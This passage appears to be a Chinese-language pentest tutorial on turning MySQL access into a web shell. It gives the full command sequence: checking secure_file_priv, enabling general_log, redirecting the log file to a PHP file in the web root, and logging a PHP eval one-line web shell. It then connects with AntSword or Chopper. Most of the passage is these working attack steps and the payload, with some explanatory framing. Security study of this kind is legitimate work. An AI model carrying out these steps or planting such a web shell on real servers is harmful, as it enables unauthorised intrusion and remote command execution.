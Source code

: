 ![image-20230515231724831](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230515231724831.png)

## 2.利用sql写文件getshell

一般**利用mysql获取shell的方法**有以下几种：

1. select '一句话木马' into dumpfile/outfile '绝对路径'

2. 1. 条件1：secure_file_priv变量非NULL，表示支持数据导入导出
   2. 条件2：用户拥有root权限
   3. 条件3：知道当前网站的绝对路径

3. 利用日志文件

### 判断步骤如下：

查看secure-file-priv值，为NULL时表示禁止导入导出，且无法通过sql语句对该属性值进行修改，说明第1种方式行不通

我们可以通过以下sql语句进行查询

```
show variables like "%secure%";
```

![image-20230515233051860](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230515233051860.png)

可见secure_file_priv的值为null，要想修改 Value值 只能修改配置文件 mysql.ini(linux修改配置文件：my.cnf)，所以第一种方法行不通

查看是否开启日志记录以及日志保存目录

```
SHOW VARIABLES LIKE '%general_log%'
```

![image-20230515233550682](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230515233550682.png)

为OFF，但可使用SET语句设置为ON

```
set global general_log ="on";
```

![image-20230515234233335](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230515234233335.png)

并将日志保存路径设置为php文件

```
set global general_log_file="C:/phpStudy/www/1.php";
```

再执行一条一句话木马语句，该语句会被记录到日志文件中

```
select '<?php eval($_POST["cmd"]);?>';
```

![image-20230515234455228](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230515234455228.png)

此时，我们已经成功将一句话木马写入主机，然后就可以使用蚁剑或菜刀进行连接，成功getshell
